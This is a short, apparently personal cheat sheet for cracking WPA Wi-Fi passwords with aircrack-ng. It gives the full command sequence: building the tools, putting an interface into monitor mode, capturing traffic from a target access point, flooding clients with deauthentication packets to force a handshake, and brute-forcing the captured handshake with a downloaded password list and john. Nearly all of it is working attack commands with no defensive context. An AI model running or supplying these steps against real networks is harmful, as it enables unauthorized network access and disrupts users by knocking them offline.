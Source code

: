 https://github.com/danielmiessler/SecLists/raw/master/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt

ssid: UnsuspiciousNetwork
pw: p4ssword


install deps:

$ sudo apt-get install build-essential libssl-dev libnl-3-dev pkg-config libnl-genl-3-dev


install aircrack:

$ wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc4.tar.gz  -O - | tar -xz
$ cd aircrack-ng-1.2-rc4
$ sudo make
$ sudo make install


set up monitor mode

$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0


start sniffing

$ sudo airodump-ng wlan0mon
$ sudo airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w WPAcrack wlan0mon --ignore-negative-one


deauth

$ sudo aireplay-ng --deauth 100 -a 00:11:22:33:44:55 wlan0mon --ignore-negative-one


turn off monitor mode

$ sudo airmon-ng stop wlan0mon


crack pw

$ aircrack-ng -w wordlist.dic -b 00:11:22:33:44:55 WPAcrack.cap
$ john --session=foo --stdout --incremental | aircrack-ng -w - -b 00:11:22:33:44:55 WPAcrack.cap
$ john --restore=foo | aircrack-ng -w - -b 00:11:22:33:44:55 WPAcrack.cap
